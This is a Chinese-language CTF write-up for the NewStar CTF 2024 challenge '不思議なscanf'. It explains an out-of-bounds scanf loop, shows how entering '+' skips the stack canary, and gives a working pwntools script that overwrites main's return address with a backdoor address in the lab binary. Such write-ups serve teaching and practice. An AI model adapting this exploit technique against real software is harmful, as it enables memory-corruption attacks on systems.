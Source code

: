 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 不思議なscanf

```c
int __fastcall main(int argc, const char **argv, const char**envp)
{
  int v3; // eax
  int i; // [rsp+Ch] [rbp-24h]
  _DWORD v6[6]; // [rsp+10h] [rbp-20h] BYREF
  unsigned__int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  initial(argc, argv, envp);
  puts(aGgggggggggeeee);
  for ( i = 0; i <= 15; ++i )
  {
    printf(format);
    v3 = i;
    __isoc99_scanf(&unk_4047FA, &v6[v3]);
  }
  puts("銉愩偆銉愩偆");
  return 0;
}
```

程序定义了一个 int 类型的数组，并利用 for 循环用 scanf 向数组读入内容

但是 for 循环的次数是 16 次，已经超出了数组定义的范围，造成了数组越界

所以我们最终的目的就是利用这个数组越界修改 `main` 函数的返回地址

![查看保护](/assets/images/wp/2024/week3/scanf_1.png)

![查看汇编](/assets/images/wp/2024/week3/scanf_2.png)

:::tip
`scanf` 时使用的参数 `%d`：

正常输入时，输入为范围在 $[-2^{31}, 2^{32}-1]$ 内的整数。

如果输入范围在 $[-2^{63}, 2^{63}-1]$ 内的整数，则会截断高位读取，此范围是 `long long int` 的范围。

如果输入范围在 `long long int` 范围之外，则统一将参数赋值为 $-1$（0xFFFFFFFF）。

如果输入为非数字，分为下列情况：

1. 如果输入仅有一个，则该输入无效，该值不变；
2. 如果输入有数字前缀<span data-desc>（如 `12345abcd`）</span>，则 `scanf` 仅会读取前面的数字，从第一个非数字开始，后面全部舍弃<span data-desc>（`12345`）</span>；
3. 如果输入有多个且使用一个 `scanf` 语句<span data-desc>（如 `scanf("%d, %d", &a, &b)`）</span>，输入第一个非数字后，后面的所有输入均为无效，前面的输入可以赋值；
4. 如果输入有多个且使用多个 `scanf` 语句<span data-desc>（含循环，即一个 `scanf` 中仅有一个输入）</span>，则输入非数字时，如果输入的不是 `+` 或 `-`，则后面紧跟的所有 `scanf` 均自动跳过，变为无效，不能输入。如果输入的 `+` 或 `-`，则会跳过当前输入，后面仍然可以进行输入。

—— 摘抄自：[以 Pwn 视角看待 C 函数 —— scanf](https://blog.csdn.net/qq_54218833/article/details/121308367)
:::

这里我们需要利用 `scanf` 多次输入的特性，通过输入字符 `+` 来跳过对 Canary 的修改，进而直接修改返回地址为后门地址。

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./pwn')
elf = ELF('./pwn')

for _ in range(10):
    ru('わたし、気になります！')
    sl(b'+')

ru('わたし、気になります！')
sl(str(0x401240))
ru('わたし、気になります！')
sl(str(0))

for _ in range(4):
    ru('わたし、気になります！')
    sl(b'+')

p.interactive()
```
